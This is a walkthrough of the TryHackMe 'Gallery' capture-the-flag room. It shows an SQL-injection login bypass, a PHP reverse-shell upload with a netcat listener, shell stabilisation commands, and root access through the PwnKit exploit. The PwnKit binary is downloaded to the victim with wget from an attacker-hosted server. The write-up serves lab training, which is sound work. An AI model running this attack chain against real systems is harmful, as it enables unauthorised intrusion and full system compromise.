 # Tryhackme Gallery Room Writeup
  - Penetration Testing methodology
    - Scanning
      - Nmap Scan
    - Enumeration
      - Enumerating HTTP Service
      - Searching Exploit
      - Testing Login page
    - Exploitation
      - Reading exploit code
      - Trying exploit code
      - Finding another way to exploit cms
      - Uploading shell
    - Privilege Escalation
      - Enumerating kernel make
      - Searching Exploit
      - Compiling exploit
      - Transferring Binary
      - Getting Root Shell 
      - Getting Answers
  
  - Walkthrough
    - There are two flags to find in this room 1. User flag 2. Root flag
    - Scanning IP with Nmap we get following output
       ![1  Initialscanning](https://user-images.githubusercontent.com/75413146/153704382-d698aafd-0acd-4667-8d80-7eacdf409ee2.png)
      
      We can see that on port 80 and on port 8080 http service is running, By visiting to the IP:Port we can see that on port 8080 we see
        ![2  Visiting Simple Gallery Page](https://user-images.githubusercontent.com/75413146/153704486-a9180690-64ce-4a5c-ba51-31b2f9b857f9.png)
       I tried a payload of SQLi in Username : " ' or 1=1 -- " & Password : " a " but didn't worked.
        ![6  Running SQLi](https://user-images.githubusercontent.com/75413146/153704999-70b40ef8-a327-4027-8471-f8bbd85f7479.png)

      
      So the CMS is Simple Image Gallery after searching it for on searchsploit we get following output
        ![3  Searching Exploits](https://user-images.githubusercontent.com/75413146/153704567-3cfa0a88-6b6e-4b3b-a568-f7f4affb15f9.png)
      
      Copying the exploit to current directory.
        ![4  Copying exploit](https://user-images.githubusercontent.com/75413146/153704594-d69b866e-b8e5-47c1-8cd1-4f7417342785.png)
      
      # It's a good practice to read exploit. Even if you don't understand try to read some parts of it what and how it's doing. [ My Takeaway ]
      Before finding something i ran the code to check how the exploit works.
        ![5 4 Running Exploit](https://user-images.githubusercontent.com/75413146/153704677-b735eee4-ff08-427a-bb6b-96efaa237306.png)
      
      So the code was allowing us to execute commands via a parameter called cmd and it was uploaded in gallery/uploads directory. So i visited on the provided url and found that the code was executing. The output of whoami command.
        ![5 5 Running Exploit](https://user-images.githubusercontent.com/75413146/153704746-b20aaa41-24eb-4a83-ac47-446c4d5023e6.png)

      AFter a lot of tries to gain reverse shell through cmd parameter i was frustrated then in a try i read the code [ My Takeaway :D ] content as follows:
        ![5 1 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704804-a53cb4c2-44d6-4ab8-b106-8cc1185751f9.png)
        ![5 2 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704810-417bd80d-50a7-4d49-a4c9-9e0bfb3872ff.png)
        ![5 3 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704800-f77a91f3-2e6f-4e4c-9c50-275d8a458ff8.png)
      
      While reading i encountered a line which seemed to me a SQLi payload see below :
        ![6  Reading Exploit](https://user-images.githubusercontent.com/75413146/153704955-8d4adc85-5e28-4e9e-9451-e9dded0f8310.png)
      
      So i got a hint that the payload which i was trying to use was not working for this room so i tried the payload which was used in exploit.
        ![6  Running simple cms exploit sqli payload](https://user-images.githubusercontent.com/75413146/153705095-858cd49c-0e39-474f-9db9-42d53c81adf5.png)
       And boooom !! i was not expecting this but it worked...
        ![7  We r in](https://user-images.githubusercontent.com/75413146/153705113-9e1847a3-3a5e-474f-a3cc-db6d6d9106fc.png)
       
       OKK !! We are in so now while walking an application i found a page " Albums " So after visiting i saw upload functionality.
        ![7 1 moving](https://user-images.githubusercontent.com/75413146/153705192-774e205e-dbc9-4382-bd2f-bec004592da2.png)

       I thought let's give it a try to upload a PHP reverse shell by Pentest Monkey ( can be found in /usr/share/webshells/php/ or can be found on google coz it's famous revershell script so will be easy to find ). 
       
       So edited my reverse shell with my IP and my favorite port
        ![6  3 Editing shell IP](https://user-images.githubusercontent.com/75413146/153705281-c31231ce-9b1a-4304-9b27-c9a443c1f54a.png)
       BTW out-of-topic : I am using 1337 coz not of i am leet but i want to be leet XD #HECKUR MINDSET
       
       Uploading the PHP Reverse Shell and listening on localhost via nc -lvnp 1337 [ for me it's 1337 you use what you typed the port to in script ]
        ![7 2 Upload shellcode](https://user-images.githubusercontent.com/75413146/153705349-6173c59a-3551-42d8-8a3e-edcd6d32d468.png)
        
       Shell Upload successfully !!!!
         ![7 3 Shell uploaded](https://user-images.githubusercontent.com/75413146/153705426-d93f1a53-2e47-4554-baa8-e7b0a1bba390.png)
         
       By clicking on the script you uploaded you can activate the shell. But don't forget to listen before you activated the shell.
        ![9 got shell](https://user-images.githubusercontent.com/75413146/153705457-65d471d2-b5ee-472c-b64d-a9f493d78b4e.png)
        
      Whoop Whoop we got shell... OKKK first things first let's stabilise our shell. I learned stabilising from What the Shell room on Tryhackme.
      - export TERM=xterm
      - which python3 [ Will allow to know what python is installed ]
      - python3 -c 'import pty;pty.spawn("/bin/bash")'
      - press CTRL+Z to bcakground the shell and also run the command on attacker machine
      - stty raw -echo ; fg
      - reset
      - [ This commands will give us a fully functional shell ]
        ![9 1 Stabilising shell](https://user-images.githubusercontent.com/75413146/153705566-476dfb91-8360-49e3-8670-4435c3b80777.png)
      By resetting you get your shell reset like below a clean shell :D
  - Privilege Escalation TIIIIIIIIIIIME !!!!
      - For privesc you can run linpeas or any other script or may enumerate manually for escalation.
      - But in this writeup we will run PwnKit to learn some new about POLKIT pkexec module exploit. The exploit code can be found here -> https://github.com/ly4k/PwnKit/blob/main/PwnKit.c 
        ![10  enumerating privesc](https://user-images.githubusercontent.com/75413146/153705878-b9531579-e336-44f6-bc6f-a5f328428b81.png)
      - Let's do this...
      Compiling the code by 
      - gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
         ![11  1 pkexec binary](https://user-images.githubusercontent.com/75413146/153705895-3944080b-9a45-4fda-ab70-b09be5dc796c.png)
        We got the binary compiled and now let's mode this to victim host.
        - 1st host a server on attacker machine we can do this by [Note : Host the server where your binary file is ! ]
          - Command : python3 -m http.server 80
        - 2nd  Go to victim terminal and download the binary by following 
          - Command : wget http://[attackerIP:PORT]/file_name
            ![12  Tranferring binary](https://user-images.githubusercontent.com/75413146/153705932-8b8fc8a4-8b4c-4c3b-bd0a-c459c21fbfc6.png)
            
            Also note the workding directory i am in /dev/shm. You must have a writable permission on a directory. Like /tmp or /dev/shm or /var/tmp
            Now we got the binary so let's make it executable by using command : 
              - chmod +x PwnKit
        Let's now run the binary 
          ![13  Got Shell](https://user-images.githubusercontent.com/75413146/153706089-1213c008-3b53-42d1-b140-c7ccdd2a82d2.png)
        
        Controlling Emotions of getting root shell ;-;
          So let's get the flags and end it ASAP.
          - /home/mike has user.txt
          - /root/ has root.txt
            ![13  Flags txt](https://user-images.githubusercontent.com/75413146/153706142-3bab8ddf-4894-42aa-8841-063eefd5e45d.png)
        Also we need hash of an admin user to complete the room
          - Use command netstat -altuopn for checking the services runnning on localhost
          - We can see 3306 is running which is mysql port.
          - Using mysql -u root -p [use password as root]
          - accessing the database.
          - and we got the admin hash submitting it and ok the room has been completed.
            ![14  databases](https://user-images.githubusercontent.com/75413146/153706239-3c34e211-ac40-44b8-bea1-97ed28ac16e1.png)
            ![14 2 databases](https://user-images.githubusercontent.com/75413146/153706246-a4230f42-9b67-4820-895e-dd7e3d34aec5.png)
            ![14 3 database hash](https://user-images.githubusercontent.com/75413146/153706249-57ca5fea-01e4-4fc7-88a2-1ef0184433f2.png)

# If any suggestions please advice.
